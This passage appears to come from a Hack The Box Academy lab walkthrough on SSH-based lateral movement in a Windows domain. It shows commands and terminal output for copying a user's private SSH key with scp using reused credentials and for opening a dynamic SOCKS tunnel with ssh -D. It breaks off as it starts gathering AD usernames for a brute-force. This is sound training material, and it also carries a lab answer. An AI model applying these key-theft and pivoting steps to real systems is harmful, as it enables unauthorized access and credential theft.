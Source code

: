 Answer: `2299`

## Secure Shell (SSH)

### Question 4

#### "Authenticate to SRV02 using the SSH key you found. Which domain user can authenticate with the SSH Key you found on Ambioris's folder?"

Students will reuse the previously spawned target to obtain the SSH key located in the `C:\Users\ambioris\.ssh` directory using `SCP` using `ambioris`' credentials:

Code: shell

```shell
scp ambioris@STMIP:/Users/ambioris/.ssh/unknown_id_rsa .
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ scp ambioris@10.129.229.244:/Users/ambioris/.ssh/unknown_id_rsa .

ambioris@10.129.229.244's password: 
unknown_id_rsa                                                                                                                                              100% 1679    89.9KB/s   00:00 
```

Students will establish a dynamic port-forwarding through SSH and spawn \`PowerShell:

Code: shell

```shell
ssh -D 9050 ambioris@STMIP
powershell
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-qopykegfvv]─[~]
└──╼ [★]$ ssh -D 9050 ambioris@10.129.229.244
ambioris@10.129.229.244's password:

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\ambioris@SRV01 C:\Users\ambioris>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\ambioris> 
```

Subsequently, students will proceed to gather potential usernames using `Get-ADUser` while creating a list that will be used further to brute-force the user who:

Code: shell

